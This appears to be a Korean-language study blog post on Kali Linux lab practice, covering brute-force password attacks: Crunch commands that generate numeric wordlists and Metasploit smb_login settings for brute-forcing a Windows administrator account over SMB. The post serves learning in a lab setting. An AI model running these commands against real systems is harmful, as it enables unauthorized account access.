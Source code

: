 ```yaml
---
title: "[Linux] 칼리 리눅스 실습-2"
date: 2024-11-20 00:34:00 +0900
categories:
  - OS
  - Linux
tags:
  - linux
  - language
  - programing
  - os
  - kali
---
```


# Chapter 3. 칼리 리눅스 - Part.2
#### 1. 무차별 대입 공격
- Crunch
	- 문자 조합을 이용한 공격
		- `cat /usr/share/crunch/charset.lst`<br> <img src="/assets/img/칼리설치16.png" style="float: left; margin: 0 10px 10px 0; width: 400px;">
	- 조합 사용
		- 4자리 숫자 조합
			- `crunch 1 4 -f /usr/share/crunch/charset.lst numeric -o ./passwords.txt`
		- 8자리 숫자 조합
			- `crunch 1 8 -f /usr/share/crunch/charset.lst numeric -o ./passwords.txt`
	- 실습해보기
		- 상황
			- 윈도우 관리자 계정  administrator , 비밀번호 P@ssw0rd로 설정되어 있으며,<br> 해당 계정에 대한 정보를 찾을 때까지 무차별 대입 공격 진행. 조합을 위해 준비된 파일의 내용을<br> **순서**대로 대입하며 정보 찾음
		- 코드 - Scanner
			- `msfconsole` → `use auxiliary/scanner/smb/smb_login`
			- `set rhosts [ip address]` - 공격할 대상의 IP 주소
			- `set user_file [directory path]` - 조합할 계정 목록 파일이 있는 경로
			- `set pass_file [directory path]` - 조합할 비밀번호 목록 파일이 있는 경로
			- `set stop_on_success true` - 성공하면 종료
			- `set threads 256` - 공격 속도